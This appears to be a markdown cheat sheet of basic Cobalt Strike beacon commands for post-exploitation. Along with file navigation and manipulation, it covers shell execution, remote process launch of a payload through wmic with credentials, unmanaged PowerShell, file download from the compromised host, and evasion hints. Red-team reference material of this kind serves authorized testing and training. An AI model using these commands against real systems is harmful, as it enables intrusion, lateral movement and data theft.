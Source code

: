 # 04 - Basic Commands

Search Tag(s): #command-and-control #post-exploitation #cobalt-strike

## 4.1 - Navigation

Change directories.

```
beacon> cd <drive_letter>:\path\to\directory
```

## 4.2 - File Manipulation

Create directory.

```
beacon> mkdir C:\path\to\new_directory\
```

Copy file.

```
beacon> cp C:\path\to\file.txt C:\path\to\copied_file.txt
```

Move file.

```
beacon> mv C:\path\to\file.txt C:\path\to\moved_file.txt
```

Delete file.

```
beacon> rm C:\path\to\file.txt
```

## 4.3 - Sleep and Jitter

Set the sleep time for executing beacon commands with delay. If `sleep` is `0` it becomes interactive mode.

```
beacon> sleep <seconds> <jitter>

beacon> sleep 15 30
```

## 4.4 - List files or directories

```
beacon> ls
```

## 4.5 - Execute Shell Commands

Execute any `shell` command that the beacon spawns a process `cmd.exe`.

```
beacon> shell <command> [arguments]

beacon> shell dir /s /b c:\ | findstr "explorer.exe"
```

Spawns a `cmd.exe` process but doesn't print the output

```
beacon> execute <command> [arguments]
```

Execute commands without spawning `cmd.exe` except the running process comes from the `conhost.exe`. This is highly recommended when you perform post exploitation activities.

```
beacon> run <command> [args]

beacon> run arp -a

beacon> run wmic.exe /node:<IP> [/user:<username> /password:<password>] win32_process call create "C:\path\to\shell.exe"
```

Spawns a child process of `powershell.exe`.

```
beacon> powershell <cmdlet> [args]
```

Executes unmanaged powershell command. Make sure to change the process when using the `spawnto` command.

```
beacon> powerpick <cmdlet> [args]
```

## 4.6 - Upload and Download Files

Upload file

```
beacon> upload /path/to/local/file.txt C:\path\to\remote\file.txt
```

Download file

```
beacon> download C:\path\to\file.txt
```

Check file downloads

```
beacon> downloads
```

Cancel file download(s)

```
beacon> cancel <file | *>
```

## 4.6 - Jobs Queue

Queue jobs

```
beacon> jobs
```

Kill job ID

```
beacon> jobkill <jid>
```